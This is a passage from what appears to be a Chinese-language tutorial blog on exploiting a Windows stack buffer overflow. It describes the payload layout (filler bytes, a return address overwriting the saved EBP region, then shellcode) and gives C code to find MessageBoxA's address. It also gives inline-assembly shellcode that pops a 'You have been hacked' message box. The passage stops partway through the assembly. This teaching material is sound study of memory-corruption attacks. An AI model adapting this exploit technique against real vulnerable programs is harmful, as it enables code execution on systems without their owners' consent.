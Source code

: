 至此可以先总结一下即将要编写的程序中 “name” 数组中的内容，经过分析可以知道，其形式为 AAAAAAAAAAAAXXXXSSSS……SSSS：

1.  其中前 12 个字符为任意字符（第 9-12 位是为了填充覆盖 ret 指令前存储的父函数 EBP 的值）；
2.  XXXX 为返回地址（即我使用的是 0x77e35b79）；
3.  而 SSSS 是想要让计算机执行的代码（即需要构造的执行弹窗的 ShellCode）。

**（2）获取 Shellcode 中 API 函数（弹窗）的地址**

下面的工作就是让存在着缓冲区溢出漏洞的程序显示这么一个对话框。由于我在这里想要调用`MessageBox()`这个 API 函数，所以首先需要获取该函数的地址，这可以通过编写一个小程序来获取：

```c
#include <windows.h>
#include <stdio.h>
typedef void (*MYPROC)(LPTSTR);
int main()
{ 
        HINSTANCE LibHandle;
        MYPROC ProcAdd;
        LibHandle = LoadLibrary("user32");
        //获取user32.dll的地址
        printf("user32 = 0x%x", LibHandle);
        //获取MessageBoxA的地址
        ProcAdd=(MYPROC)GetProcAddress(LibHandle,"MessageBoxA");
        printf("MessageBoxA = 0x%x", ProcAdd);
        getchar();
        return 0;
}
```

效果如下：  
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/de03510006444458e0f041df363713df.png)**（3）编写汇编代码**

将写汇编之前必要的信息罗列一下：  
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/9da4644b1c8c75849efeab2926fbf4a1.png)  
最终的汇编代码：

```c
int main()
{
 _asm{
  sub esp,0x50  //抬高栈帧
  xor ebx,ebx   //清零
  push ebx     // 分割字符串

  push 0x20676e69   
  push 0x6e726157    // push "Warning"
  mov eax,esp   //用eax存放“Warning”的指针

  push ebx             // 分割字符串  
  push 0x2020292e
  push 0x592e4a20
  push 0x79622821
  push 0x64656b63
  push 0x6168206e
  push 0x65656220
  push 0x65766168
  push 0x20756f59   // push "You have been hacked!(by Jwm)"
  mov ecx,esp      //用ecx存放该字符串的指针    

  push ebx
  push eax
  push ecx
  push ebx   //MessageBox函数参数依次入栈
  mov eax,0x77d507ea
  call eax        // call MessageBox
  push ebx  //ExitProcess函数参数入栈
```